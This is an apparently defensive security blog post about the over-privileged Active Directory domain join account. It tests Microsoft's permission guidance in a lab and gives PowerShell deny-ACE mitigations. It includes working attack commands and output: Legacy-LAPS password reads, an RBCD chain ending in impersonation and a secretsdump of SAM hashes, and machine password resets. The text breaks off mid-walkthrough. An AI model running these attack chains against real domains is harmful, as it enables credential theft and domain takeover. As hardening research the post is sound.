

TL;DR
Domain join accounts are frequently exposed during build processes, and even when following Microsoft’s current guidance they inherit over-privileged ACLs (ownership, read-all, account restrictions) that enable Legacy-LAPS disclosure, RBCD and other high-impact abuses.
Hardening requires layering controls such as disallowing low privileged users to
create machine accounts and ensure that Domain Admins own joined computer objects. In
addition, add deny ACEs for Legacy-LAPS (ms-Mcs-AdmPwd) and RBCD
(msDS-AllowedToActOnBehalfOfOtherIdentity) while scoping create/delete rights
to specific OUs.
Even with those mitigations, reset-password rights can be weaponised via replication lag plus AD CS to recover the pre-reset machine secret.
Dig into this post to see the lab walkthroughs, detection pointers and scripts that back these claims.
The problem with domain join accounts
During Shelltrail’s many Active Directory Security Assessments 13 times out of 12 we end up compromising the Active Directory some way or another through the Active Directory domain join-account. By the looks of it, this account is nothing fancy. It is a regular active directory user account which is provided some additional permissions in order to create computer accounts and join/re-join computers to the Active Directory domain.
The reason it is such a common way to compromise the Active Directory is the combination of its exposure and the way Access Control Entries (ACE) works in Active Directory.
Think about it; a Help Desk technician opens a Lenovo box, pulls out a brand new laptop. PXE boots the machine, hits F12, chooses Windows 11, grabs a cup of coffee and a croissant, then 45 minutes later the laptop is fully installed, joined to the domain and set up with all enterprise tooling.
The Laptop here is an unauthenticated device, i.e., an unauthenticated attack perspective. And it is handed the plain-text password of the domain join account in order to join the domain. This basically means that an attacker on the internal network of a company is one press of F12 away from the domain join account’s password.
The exposure of domain join accounts
There are multiple ways of gaining access to the domain join account and the following list highlights a few:
- PXE boot and task sequences
- unattend.xml files
- MDT CustomSettings.ini
- bat, cmd or ps1 scripts stored in Configuration Managers
CMSources - Stored in configuration files obtained with cmloot.py
Previous research
Shelltrail’s pentester Andreas Vikerup has previously researched the problems with Active Directory domain join accounts which highlighted that ACEs in Active Directory tied to domain join accounts behave in unexpected ways and most often result in over-privileged permissions when attempting to configure or limit them.
Trusted, good sources for gaining information on how to configure the domain join permissions have been sparse. This led to contacting Microsoft Security Response Center (MSRC) in an attempt to encourage Microsoft themselves to provide good security guidelines.
Microsoft’s response back in October 2021 was:
Hello,
We have completed our investigation and determined that this issue does not meet MSRC’s bug bar for a security update.
This led administrators to rely on blogs and other unverified sources to set up one of the most exposed Active Directory accounts in their environment.
4 years later…
By chance, this came up during a Google search (article date 25th Aug 2025):
We acknowledge and know that managing domain join account permissions is hard - but Shelltrail is very happy that Microsoft takes action and provides guidance in this matter.
The continuation of this article will put to the test the recommendations that Microsoft highlight. Follow along!
The domain join account
By default both regular users and high-privilege users (Domain Admins) are allowed to join computers to the domain. Regular users are however capped to joining maximum 10 machines.
When a regular user joins a computer to the domain (in other words: creates a new computer object)
the owner of the object will default to Domain Admins. The same concept also applies
when a high-privileged user joins a computer.
Note that we do not want to use high privileged accounts for domain join actions as this username and password must be stored and pushed to the devices if for instance Configuration Manager is used to deploy operating systems.
But using a regular, default configured, user account for domain join actions will quickly reach the cap of 10 machine accounts.
To solve this - a specially configured Active Directory user account should be created and used in task sequences - we will call this the domain join-account.
Machine Account Quota
All information in this article will be summarized in the end in a nice, neat to-do list which should help create a reasonably secure domain join account.
But first off, we need to address the limit of 10 computer accounts which in
Active Directory is controlled by the ms-DS-MachineAccountQuota. This
is recommended to be set to 0, which limits any low privileged account to
create computer objects and thereby mitigating multiple attack vectors
that requires computer accounts. This setting is not covered in Microsoft’s Active Directory domain join permissions article but for the completeness of this guide
we will include it:
Set-ADDomain -Identity test.local -Replace @{ 'ms-DS-MachineAccountQuota' = 0 } -Verbose
VERBOSE: Performing the operation "Set" on target "DC=test,DC=local".
Awesome, now only the following users can create new computer objects:
- Users in the Administrators or Domain Administrators groups.
- Users who have delegated permissions on containers in Active Directory to create and delete computer accounts.
user@adpen1:~$ addcomputer.py test.local/test-lowpriv:$PASS -computer-name NEWCOMPUTER\$ -computer-pass Abcdef12345
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[-] Authenticating account's machine account quota exceeded!
Understanding Microsoft’s domain join article
Begin with reading through the full article https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/active-directory-domain-join-permissions.
Then we’ll discuss the necessary parts, namely the two scenarios:
Scenario 1: Permissions for creating computer accounts,
This scenario applies when users join their own computers to the domain without prior provisioning of computer accounts. During domain join, if the computer account with the name you’re joining doesn’t exist in AD, the system creates it using an Ldap_Add() operation, performed with the provided user credentials. To learn more, see NetJoinDomain function (lmjoin.h). The user joining the computer must either have the Add workstations to domain user right (also known as SeMachineAccountPrivilege, managed by Ms-Ds-Machine-Account-Quota), or permission to create computer objects in the organizational unit (OU) or container where the account is created. Because of the vulnerabilities described in Add workstations to domain, Microsoft doesn’t recommend using this option.
This basically explains that low privileged users should not be allowed to create
computer accounts as it introduces security risks.
This is exactly what we mitigated with the MachineAccountQuota
setting. Well done friend, we are one step ahead.
Scenario 2: Reusing computer accounts during domain join,
A more common scenario involves domain joining a device with a precreated computer account. For example, Admin01 at contoso.com has the Create Computer Account permissions on
OU=Workstations,DC=Contoso,DC=com
A more common scenario is up for discussion. Pre-creating all computer accounts creates more overhead prior to deploying machines. Well well, let’s continue.
Admin01creates a computer account in the Workstations OU called NewPC1 andAdmin02needs to join this computer to the domain during the build process. In cases where troubleshooting is necessary, such as whenAdmin03needs to unjoin and rejoin a computer, the preexisting account eases this process.
So the recommended approach is to use three accounts for our operating system deployment now?
- Admin01 - To pre create computer accounts
- Admin02 - To join computers to the domain (What we call domain join account in this article)
- Admin03 - To unjoin/rejoin machines to the domain
When an account with the name NewPC1$ exists in AD, an Ldap_modify() operation is executed using the credentials of the user handling the join, like
Admin02@contoso.com.
This tells us that our domain join account needs modify rights on the computer objects in Active Directory.
When you perform the offline domain join process (
djoin /requestODJ), the join doesn’t require any permissions on the computer account in AD. This method is recommended because it minimizes required AD privileges and reduces potential issues.
The previous excerpt is interesting. Microsoft recommends usage of offline domain join (ODJ).
This scenario requires a user to pre-creating the computer
object in Active Directory, where the user would be our domain join account. While creating
the object, a random 120
character password is set as the machine account password. This password, as well as
other domain specific information is stored in a base64 encoded blob.
A djoin.exe command together with the base64 blob
can join a workgroup computer to the Active Directory. Meaning that no
permissions are needed during this scenario, at least not during the
time of the join action. We will not delve further into
this topic but it could be a fun research project ahead.
As far as we know there is no official support to integrate offline domain join and the automatic pre-creating of computer objects in Configuration Manager task sequences. Until then, we will not consider this option for an operative system deployment process.
To successfully reuse an existing computer account during domain join, ensure the following permissions are assigned:
- Trusted Ownership: The computer account owner (Admin01) must be a member of the Administrators group, either directly or through nested group membership. Alternatively, the user performing the domain join (Admin01) must be the account owner. If KB5020276 - Netjoin: Domain join hardening changes is installed, the owner (Admin01) or a group that includes Admin01 must be listed as a trusted owner in the ComputerAccountReuseAllowlist Group Policy Object (GPO) as described in the KB.
Ah, ownership. This is the main fundamental issue with domain join accounts that was reported to Microsoft back in 2022. More on this later.
The rest of the article states permissions to successfully join a computer to the domain using an existing account.
Following Microsoft permission guidelines
First off we need to create our dedicated domain join user:
We will follow Scenario 2 in Microsoft’s guidelines as we want to be able to reinstall machines with our Configuration Manager environment.
We assign all of these permissions to CN=Computers,OU=test,OU=local and limit the
assignments to Descendant Computer Objects:
- Read all properties
- List contents
- Change password
- Reset password
- 
- Write account restrictions (for updating UserAccountControl)
- Validated write to DNS host name
- Validated write to service principal name
- Allowed to authenticate
- Write computername (pre-Windows 2000)
- Write displayname (Not found ACE - skipping)
- Write description

We test out our assigned permissions with addcomputer.py from impacket:
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name NEWCOMPUTER\$
Impacket v0.13.0.dev0+20251002.113829.eaf2e556 - Copyright Fortra, LLC and its affiliated companies
[-] Authenticating account's machine account quota exceeded!
Remember?:
The user joining the computer must either have the Add workstations to domain user right (also known as SeMachineAccountPrivilege)
We must now choose whether deletion of computer accounts should be delegated to our domain join account. If we allow it - the account will be able to unjoin machines from the domain and clean up afterwards as well - however this also allows an attacker to wipe all computer accounts if the domain join account should be compromised. We aim for a hardened environment and thereby do not allow deletion of accounts:
All permissions assigned to an object in Active Directory is stored in the nTSecurityDescriptor:
user@adpen1:~$ pyldapsearch test.local/domainjoin:$PASS '(&(objectcategory=container)(name=Computers))' -attributes nTSecurityDescriptor
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] pyldapsearch v0.1.7 - Tw1sm
[*] Binding to test.local
[*] Distinguished name: DC=test,DC=local
[*] Filter: (&(objectcategory=container)(name=Computers))
[*] Returning specific attributes(s): nTSecurityDescriptor
--------------------
nTSecurityDescriptor: AQAEjMAMAADcDAAAAAAAABQAAAAEAKwMPQAAAAUKSAAAAQAAAwAAAFMacqsvHtARmBkAqgBAUpuGepa/5g3QEaKFAKoAMEniAQUAAAAAAAUVAAAAcafBLzep2eUtpPgmZAQAAAUKSAAAAQAAAwAAAHCVKQBtJNA....
The nTSecurityDescriptor stores its data in binary (SDDL) format which is not
human readable. However @p0dalirius has created pyDescribeNTSecurityDescriptor to parse the data, which comes in
handy when reviewing ACLs with python:
user@adpen1:~$ DescribeNTSecurityDescriptor.py -u domainjoin -p $PASS -d test.local --summary -D CN=computers,DC=test,
[>] Try to authenticate as 'test.local\domainjoin' on None ...
001. 'TEST.LOCAL\domainjoin' is allowed to Control Access on my Extended Right USER_CHANGE_PASSWORD (inherited from the LDAP Attribute computer), by inheritance.
002. 'TEST.LOCAL\domainjoin' is allowed to Control Access on my Extended Right USER_FORCE_CHANGE_PASSWORD (inherited from the LDAP Attribute computer), by inheritance.
003. 'TEST.LOCAL\domainjoin' is allowed to Control Access on my Extended Right ALLOWED_TO_AUTHENTICATE (inherited from the LDAP Attribute computer), by inheritance.
004. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my Property Set DNS_HOST_NAME_ATTRIBUTES (inherited from the LDAP Attribute computer), by inheritance.
005. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my LDAP Attribute servicePrincipalName (inherited from the LDAP Attribute computer), by inheritance.
008. 'TEST.LOCAL\domainjoin' is allowed to Write on my LDAP Attribute description (inherited from the LDAP Attribute computer), by inheritance.
009. 'TEST.LOCAL\domainjoin' is allowed to Write on my Property Set ACCOUNT_RESTRICTIONS (inherited from the LDAP Attribute computer), by inheritance.
010. 'TEST.LOCAL\domainjoin' is allowed to Create Child on my LDAP Attribute computer, by inheritance.
017. 'TEST.LOCAL\domainjoin' is allowed to List Contents, Read on me (inherited from the LDAP Attribute computer), by inheritance.
A couple of improvements were done in pyDescribeNTSecurityDescriptor
during this research. View here.
We test to add a computer to the domain again:
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name NEWCOMPUTER\$
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account NEWCOMPUTER$ with password KvgMCaWyA1dyNFHIsVTsLrMABdCdiPiN.
Perfect. We now have the ability to join the domain.
But even though we have followed the best practices, the permissions we now have assigned our domain join account is over privileged and if a compromise of this account occurs the attacker will have multiple ways of compromise the chosen targets.
Let’s step through them one by one highlighting the risk of each permission, and attempt to provide mitigating factors.
Read all properties
Easy to exploit. Reading all properties means that we can read the Legacy-LAPS password
if present from the ms-Mcs-AdmPwd attribute:
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# get_laps_password NEWCOMPUTER$
Found Computer DN: CN=NEWCOMPUTER,CN=Computers,DC=test,DC=local
LAPS Password: lwNImJjCtsjKeXmldLVm/zJwSoiGItpi
Agreed that the domain join account should have read permissions on the object but all properties - including sensitive ones seem overpowered.
So we remove Read all properties from our delegate permissions.
A note on ldap_shell.py. @PShlyundin has a fork of ldap_shell in an external repo of impacket. During this research me and my friend
Chad Gepete rewrote the client from scratch and sent a pull request to impacket’s main project. Previously ldap_shell was a class in impacket
which only was accessible by running for instance ntlmrelayx.py and initiating
a smbclient.py to 127.0.0.1 in order to reach the interactive ldap_shell menu.
Not anymore.
Ownership
As we have delegated permission specifically to our domain join account
to allow creation of computer objects a key difference in the ownership of
the computer account occurs. If a high privileged user has joined the computer
to the domain, Domain Admins becomes the owner:
If however a domain join account has been delegated permission to join the computer it itself becomes the owner:

This is simple to exploit as you can now assign yourself full rights to the computer object and perform Legacy-LAPS read, Resource Based Constrained Delegation (RBCD) or Shadow Credentials:
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# grant_control NEWCOMPUTER$ domainjoin
Resolved 'domainjoin' to 'S-1-5-21-801220465-3856247095-653829165-1124'
Resolved '(sAMAccountName=NEWCOMPUTER$)' to 'CN=NEWCOMPUTER,CN=Computers,DC=test,DC=local'
DACL modified successfully!
'domainjoin' now has control of 'CN=NEWCOMPUTER,CN=Computers,DC=test,DC=local'
The ownership of a machine is represented by the last line (Write Extended Properties on my Property Set DS_VALIDATED_WRITE_COMPUTER, which was added to the DescribeNTSecurityDescriptor.py in commit 082d094):
user@adpen1:~$ DescribeNTSecurityDescriptor.py -u domainjoin -p $PASS -d test.local --summary -D CN=NEWCOMPUTER,CN=Computers,DC=test,DC=local | grep domainjoin
[>] Try to authenticate as 'test.local\domainjoin' on None ...
001. 'TEST.LOCAL\domainjoin' is allowed to Write on my Property Set LOGON_INFORMATION (inherited from the LDAP Attribute computer), by inheritance.
002. 'TEST.LOCAL\domainjoin' is allowed to Write on my LDAP Attribute description (inherited from the LDAP Attribute computer), by inheritance.
003. 'TEST.LOCAL\domainjoin' is allowed to Write on my LDAP Attribute displayName (inherited from the LDAP Attribute computer), by inheritance.
004. 'TEST.LOCAL\domainjoin' is allowed to Write on my LDAP Attribute sAMAccountName (inherited from the LDAP Attribute computer), by inheritance.
005. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my Property Set DNS_HOST_NAME_ATTRIBUTES, by inheritance.
006. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my LDAP Attribute servicePrincipalName, by inheritance.
007. 'TEST.LOCAL\domainjoin' is allowed to Write on my Property Set ACCOUNT_RESTRICTIONS, by inheritance.
015. 'TEST.LOCAL\domainjoin' is allowed to List Contents, Read, Delete Tree, List Object, Control Access, Delete, Read Control on me, by inheritance.
021. 'TEST.LOCAL\domainjoin' is allowed to Control Access on my Extended Right USER_CHANGE_PASSWORD (inherited from the LDAP Attribute computer)
022. 'TEST.LOCAL\domainjoin' is allowed to Control Access on my Extended Right USER_FORCE_CHANGE_PASSWORD (inherited from the LDAP Attribute computer)
023. 'TEST.LOCAL\domainjoin' is allowed to Control Access on my Extended Right ALLOWED_TO_AUTHENTICATE (inherited from the LDAP Attribute computer)
024. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my Property Set DNS_HOST_NAME_ATTRIBUTES (inherited from the LDAP Attribute computer)
025. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my LDAP Attribute servicePrincipalName (inherited from the LDAP Attribute computer)
026. 'TEST.LOCAL\domainjoin' is allowed to Read, Write on my Property Set ACCOUNT_RESTRICTIONS (inherited from the LDAP Attribute computer)
027. 'TEST.LOCAL\domainjoin' is allowed to Create Child, Delete Child on my LDAP Attribute computer
042. 'TEST.LOCAL\domainjoin' is allowed to Write Extended Properties on my Property Set DS_VALIDATED_WRITE_COMPUTER
This will be mitigated if the owner of the computer account is changed during an action in the deployment process. We change our owner manually to Domain Admins and continue.
Read all permission… again?
Did you see entry 015. in DescribeNTSecurityDescriptor.py?
015. 'TEST.LOCAL\domainjoin' is allowed to List Contents, Read, Delete Tree, List Object, Control Access, Delete, Read Control on me, by inheritance.
Read on me. Yep, we can read Legacy-LAPS passwords again:
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# get_laps_password NEWCOMPUTER$
Found Computer DN: CN=NEWCOMPUTER,CN=Computers,DC=test,DC=local
LAPS Password: lwNImJjCtsjKeXmldLVm/zJwSoiGItpi
But we have mitigated this vulnerability by removing Read all properties from the
CN=Computers,OU=test,OU=local container right?
When looking through all permissions, Read all properties is once again
set to our domain join account but it is not inherited:
After a while of digging, the explanation is that the default security descriptor of newly created computer object assigns the Creator/Owner with read properties:
user@adpen1:~$ pyldapsearch test.local/domainjoin:$PASS '(cn=Computer)' -base-dn "CN=Schema,CN=Configuration,DC=test,DC=local" -attributes defaultSecurityDescriptor
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] pyldapsearch v0.1.7 - Tw1sm
[*] Binding to test.local
[*] Distinguished name: CN=SCHEMA,CN=CONFIGURATION,DC=TEST,DC=LOCAL
[*] Filter: (cn=Computer)
[*] Returning specific attributes(s): defaultSecurityDescriptor
--------------------
defaultSecurityDescriptor: D:(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;DA)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;AO)(A;;RPWPCRCCDCLCLORCWOWDSDDTSW;;;SY)(A;;RPCRLCLORCSDDT;;;CO)(OA;;WP;4c164200-20c0-11d0-a768-00aa006e0529;;CO)(A;;RPLCLORC;;;AU)(OA;;CR;ab721a53-1e2f-11d0-9819-00aa0040529b;;WD)(A;;CCDC;;;PS)(OA;;CCDC;bf967aa8-0de6-11d0-a285-00aa003049e2;;PO)(OA;;RPWP;bf967a7f-0de6-11d0-a285-00aa003049e2;;CA)(OA;;SW;f3a64788-5306-11d1-a9c5-0000f80367c1;;PS)(OA;;RPWP;77B5B886-944A-11d1-AEBD-0000F80367C1;;PS)(OA;;SW;72e39547-7b18-11d1-adef-00c04fd8d5cd;;PS)(OA;;SW;72e39547-7b18-11d1-adef-00c04fd8d5cd;;CO)(OA;;SW;f3a64788-5306-11d1-a9c5-0000f80367c1;;CO)(OA;;WP;3e0abfd0-126a-11d0-a060-00aa006c33ed;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;;WP;5f202010-79a5-11d0-9020-00c04fc2d4cf;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;;WP;bf967950-0de6-11d0-a285-00aa003049e2;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;;WP;bf967953-0de6-11d0-a285-00aa003049e2;bf967a86-0de6-11d0-a285-00aa003049e2;CO)(OA;;RP;46a9b11d-60ae-405a-b7e8-ff8a58d456d2;;S-1-5-32-560)
What we find here is the security descriptor (A;;RPCRLCLORCSDDT;;;CO) which means:
| Field | Meaning |
|---|---|
(A;;...;;;CO) |
Allow ACE applying to Creator Owner |
RP |
Read Properties - allows reading all readable attributes on the object |
(also includes CR, LC, LO, RC, SD, DT) |
Other rights, but the RP flag specifically grants read access to object properties |
And this is when the mitigation gets tricky. Either we do rocket surgery on the inner workings of Active Directory or we attempt to implement Deny ACEs.
We choose ACEs..
Active Directory ACEs can either Allow or Deny. Deny will have precedence over Allow. Awesome, easy to remember.
But this only applies when the Deny is applied at the same (or stricter) level as the Allow.
And Read all properties is applied directly on the object. A.K.A the most strictiestest.
This means that we cannot add Deny read on ms-Mcs-AdmPwd attribute at the root level
in order to Deny read on specific properties.
So if we would take a scenario where we attempt to Deny/Allow an attribute these precedence rules will apply:
| OU=test,OU=local/ | CN=Computers/ | CN=PC01 | Result |
|---|---|---|---|
| Allow | Allow | Allow | Allow read |
| Deny | Allow | Allow | Allow read |
| Deny | Deny | Allow | Allow read |
| Deny | Deny | Deny | Deny read |
| Allow | Allow | Deny | Deny read |
| Allow | Allow | Deny and Allow | Deny read |
So to mitigate Legacy-LAPS read we need to do a post-deploy or scheduled run of a script
that assigns Deny read on the ms-Mcs-AdmPwd attribute for our domain join
account directly on the object:
# ---- SETTINGS ----
$entity = "domainjoin"
$guid = "ad27bc2b-cf04-424d-b705-5df50c7d5d37" # ms-Mcs-AdmPwd
$property = "ReadProperty"
$permission = "Deny"
# -------------------
# Define the ACE properties
$adRights = [System.DirectoryServices.ActiveDirectoryRights]::$property
$objectType = New-Object Guid $guid # GUID for the specific property
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$accessControlType = [System.Security.AccessControl.AccessControlType]::$permission
$identityReference = New-Object System.Security.Principal.NTAccount($entity)
# Create the ACE
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identityReference, $adRights, $accessControlType, $objectType, $inheritanceType)
# Get ALL computer objects in the forest root domain and apply the deny
$computerDNs = (Get-ADComputer -Filter * -Properties distinguishedName).distinguishedName
foreach($computer in $computerDNs){
# Get the current ACL of the computer object
$acl = Get-ACL "AD:$computer"
# Add the new ACE to the ACL
$acl.AddAccessRule($ace)
# Set the modified ACL back to the computer object
Set-ACL -Path "AD:$computer" -AclObject $acl
}
Success:
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# get_laps_password SRV01$
Found Computer DN: CN=SRV01,CN=Computers,DC=test,DC=local
Unable to Read LAPS Password for Computer
The hidden Write Extended Properties (write on msDS-AllowedToActOnBehalfOfOtherIdentity)
As a regular pentester of Active Directory the exploitation of Resource Based
Constrained Delegation is a common way to compromise a remote machine
by having write access to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute
on the computer account.
Just to make sure our setup is hardened we test to write to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute with our domain join account:
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# set_rbcd DEMOMACHINE$ asdf$
Found Target DN: CN=DEMOMACHINE,CN=Computers,DC=test,DC=local
Target SID: S-1-5-21-801220465-3856247095-653829165-1204
Found Grantee DN: CN=asdf,CN=Computers,DC=test,DC=local
Grantee SID: S-1-5-21-801220465-3856247095-653829165-1190
Currently allowed sids:
Delegation rights modified successfully!
asdf$ can now impersonate users on DEMOMACHINE$ via S4U2Proxy
Oh (no|yes) - we have the privileges to perform RBCD…
Without going in depth of the RBCD exploitation technique the following commands show how to compromise the remote machine:
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name RBCD\$ -computer-pass Password123
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account RBCD$ with password Password123.
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# set_rbcd DEMOMACHINE$ RBCD$
Found Target DN: CN=DEMOMACHINE,CN=Computers,DC=test,DC=local
Target SID: S-1-5-21-801220465-3856247095-653829165-1182
Found Grantee DN: CN=RBCD,CN=Computers,DC=test,DC=local
Grantee SID: S-1-5-21-801220465-3856247095-653829165-1205
Currently allowed sids:
S-1-5-21-801220465-3856247095-653829165-1188
Delegation rights modified successfully!
RBCD$ can now impersonate users on DEMOMACHINE$ via S4U2Proxy
# exit
user@adpen1:~$ getST.py -spn 'cifs/DEMOMACHINE' -dc-ip '100.64.5.200' 'test.local/RBCD:Password123' -impersonate test-admin
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating test-admin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in test-admin@cifs_DEMOMACHINE@TEST.LOCAL.ccache
user@adpen1:~$ KRB5CCNAME=~/test-admin@cifs_DEMOMACHINE@TEST.LOCAL.ccache secretsdump.py DEMOMACHINE -target-ip 100.64.5.212 -no-pass -k
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x42258c136f02241902f170cf6037bed7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[...]
After reviewing all ACLs assigned to our domain join account no one explains
why we can write to the msDS-AllowedToActOnBehalfOfOtherIdentity attribute:
After reviewing all ACLs on the computer object and switching them to Deny one-by-one
it was found that Write Account Restrictions was the ACL providing
write to msDS-AllowedToActOnBehalfOfOtherIdentity:
Which is represented by Write on my Property Set ACCOUNT_RESTRICTIONS in DescribeNTSecurityDescriptor.py
user@adpen1:~$ DescribeNTSecurityDescriptor.py -u domainjoin -p $PASS -d test.local --summary -D CN=DEMOMACHINE,CN=Computers,DC=test,DC=local | grep -i domainjoin | grep ACCOUNT_RESTRICTIONS
010. 'TEST.LOCAL\domainjoin' is allowed to Write on my Property Set ACCOUNT_RESTRICTIONS, by inheritance.
031. 'TEST.LOCAL\domainjoin' is allowed to Write on my Property Set ACCOUNT_RESTRICTIONS (inherited from the LDAP Attribute computer)
Write account restriction is actually added two times on the computer object which
our domain join account has created.
Once per inheritance and recommended by Microsoft:
And once per default SDDL on computer objects (OA;;WP;4c164200-20c0-11d0-a768-00aa006e0529;;CO):
| Field | Meaning |
|---|---|
(OA;;...;;;CO) |
Object-specific Allow ACE applying to Creator Owner |
WP |
Write Property — grants permission to modify properties within the specified property set |
4c164200-20c0-11d0-a768-00aa006e0529 |
GUID for “Account Restrictions” property set — includes attributes like userAccountControl, accountExpires, pwdLastSet, etc. |
CO |
Creator Owner — the security principal that created the object |
Yet again we do not want to change the default setup of ACLs in Active Directory so we apply the Deny-approach:
# ---- SETTINGS ----
$entity = "domainjoin"
$guid = "3f78c3e5-f79a-46bd-a0b8-9d18116ddc79" # Write msDS-AllowedToActOnBehalfOfOtherIdentity
$property = "WriteProperty"
$permission = "Deny"
# -------------------
# Define the ACE properties
$adRights = [System.DirectoryServices.ActiveDirectoryRights]::$property
$objectType = New-Object Guid $guid # GUID for the specific property
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$accessControlType = [System.Security.AccessControl.AccessControlType]::$permission
$identityReference = New-Object System.Security.Principal.NTAccount($entity)
# Create the ACE
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule($identityReference, $adRights, $accessControlType, $objectType, $inheritanceType)
# Get ALL computer objects in the forest root domain and apply the deny
$computerDNs = (Get-ADComputer -Filter * -Properties distinguishedName).distinguishedName
foreach($computer in $computerDNs){
# Get the current ACL of the computer object
$acl = Get-ACL "AD:$computer"
# Add the new ACE to the ACL
$acl.AddAccessRule($ace)
# Set the modified ACL back to the computer object
Set-ACL -Path "AD:$computer" -AclObject $acl
}
And we’ll test it out:
user@adpen1:~$ ldap_shell.py test.local/domainjoin:$PASS@100.64.5.200
Type help for list of commands
# set_rbcd DEMOMACHINE$ RBCD$
Found Target DN: CN=DEMOMACHINE,CN=Computers,DC=test,DC=local
Target SID: S-1-5-21-801220465-3856247095-653829165-1182
Found Grantee DN: CN=RBCD,CN=Computers,DC=test,DC=local
Grantee SID: S-1-5-21-801220465-3856247095-653829165-1205
Currently allowed sids:
('Could not modify object, the server reports insufficient rights: %s', '00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0\n\x00')
[-] ('Could not modify object, the server reports insufficient rights: %s', '00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0\n\x00')
There we go - we have now mitigated the usage of the RBCD attack on a computer account with the domain join account. Happy times.
Change password
Change password, compared to reset password requires knowledge of the current password. The following example shows password change by knowing the current NTLM hash:
user@adpen1:~$ changepasswd.py test.local/DEMOMACHINE\$@test.local -hashes 687f3a9249b598f608261f56ef2b36e6 -newhash 687f3a9249b598f608261f56ef2b36e5
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Changing the password of test.local\DEMOMACHINE$
[*] Connecting to DCE/RPC as test.local\DEMOMACHINE$
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).
No exploitation of the ACE was found, meaning no mitigation is needed.
Reset password
Easy compromise one might think. Reset password, take over the machine, game over, profit, etc. But no.
The reason for this ACE assignment is sane. In order to rejoin/reinstall a machine the domain join account needs the ability to set new passwords for the machine account.
First off, reset password, compared to change password, does not require the user to know the current password:
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name DEMOMACHINE\$ -no-add
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully set password of DEMOMACHINE$ to T9ArZbsCrgxopEPGLBfv4ctcb490RWxL.
The problem that arises when we attempt to exploit this is that we have now broken the trust relationship between the computer and Active Directory as the password in AD is no longer in sync with the device:
In order to not bork every client we attack this relationship must somehow be repaired.
But, focusing on the positives, we have control over the password stored in the Active Directory - however the password on the local machine is still the initial automatically generated 120 character password. The password from Active Directory will not be replicated to the local machine, as the process for syncing local machine account passwords is:
- The computer generates a new random password
- It authenticates to a domain controller using its current password
- It sends the new password to the DC
- The DC updates the password in Active Directory
- The computer stores the new password locally in its LSA (Local Security Authority) secrets
This occurs by default with an interval of 30 days.
This is nicely explained by @syfuhs (https://syfuhs.net/on-computer-passwords.
The fact remains that we have the Active Directory stored password.
So in theory, with ticketer.py, we should be able to generate a valid Kerberos Service Ticket
and use it to compromise the target machine, even though the trust
relationship is broken. This is because ticketer.py forges the Service Ticket
offline (without ever talking to the domain controller), by using the NTLM hash
of the target’s machine account password.
But this will never work, as we haven’t yet compromised the machine meaning that we have no knowledge of the locally stored computer account password. I.e., the machine will not be able to decrypt our forged ticket.
The previous assumption is validated with the following steps:
user@adpen1:~$ addcomputer.py test.local/domainjoin:$PASS -computer-name DEMOMACHINE\$ -no-add -computer-pass Password123
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully set password of DEMOMACHINE$ to Password123.
